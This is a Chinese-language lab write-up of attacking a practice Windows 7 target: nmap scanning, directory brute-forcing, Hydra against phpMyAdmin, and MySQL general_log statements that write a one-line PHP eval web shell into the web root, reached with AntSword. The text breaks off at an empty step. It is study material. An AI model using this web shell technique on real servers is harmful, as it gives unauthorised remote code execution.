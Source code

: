#### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。



#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。

<img src="./images/20230409173932.jpg" style="zoom: 33%;" />

3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。

<img src="./images/20230409183648.jpg" style="zoom: 33%;" />

4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd

<img src="./images/20230409185306.jpg" style="zoom:33%;" />

5. 













